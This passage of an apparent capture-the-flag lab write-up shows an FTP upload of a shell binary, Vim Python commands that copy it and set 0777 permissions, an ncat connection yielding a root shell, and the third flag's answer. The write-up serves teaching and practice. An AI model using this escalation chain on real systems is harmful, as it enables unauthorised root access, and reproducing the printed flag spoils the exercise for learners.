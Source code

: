 In order to upload `sh` on the server, we can use the same technique we used for BusyBox.

```shell
ftp> put sh
200 Operation successful
150 Ok to send data
226 Operation successful
125640 bytes sent in 0.0644 seconds (1.86 Mbytes/s)
ftp> ls
200 Operation successful
150 Directory listing
total 9504
-rw-r--r--    1 0        0             3010 Nov  5 18:49 FROST-2247-SP.txt
-rw-r--r--    1 0        0             3211 Nov  5 18:50 YETI-1125-SP.txt
-rw-r--r--    1 0        0          1275832 Dec 12 14:23 busybox
-rw-r--r--    1 0        0               24 Nov  5 19:06 flag-1-of-4.txt
-rw-r--r--    1 0        0               12 Nov  5 19:07 flag-2-of-4.sh
-rw-r--r--    1 0        0          2127524 Nov  5 18:54 frostling_base.png
-rw-r--r--    1 0        0          2305908 Nov  5 18:54 frostling_five.png
-rw-r--r--    1 0        0           125640 Dec 12 14:29 sh
-rw-r--r--    1 0        0          1589463 Nov  5 18:54 yeti_footage.png
-rw-r--r--    1 0        0          2277409 Nov  5 18:54 yeti_mugshot.png
```

Then, use Vim to copy the file and set the privileges.

```vim
:py3 import shutil; shutil.copyfile("/tmp/ftp/sh", "/usr/frosty/sh")
:py3 import os; os.chmod("/usr/frosty/sh", 0o777)
```

And finally, open the telnet shell.

```shell
[nick@tuf504]─[~] ncat 10.10.96.159 8065
��������
Ubuntu 22.04.3 LTS
# cd /tmp
cd /tmp
# ./busybox sh
./busybox sh
/tmp # whoami
whoami
root
/tmp # ls /root
ls /root
flag-3-of-4.txt
/tmp # cat /root/flag-3-of-4.txt
cat /root/flag-3-of-4.txt
THM{Not.all.roots.and.routes.are.equal}
```

>What is the value of the third flag?
>- [x] THM{Not.all.roots.and.routes.are.equal}
{: .prompt-info }
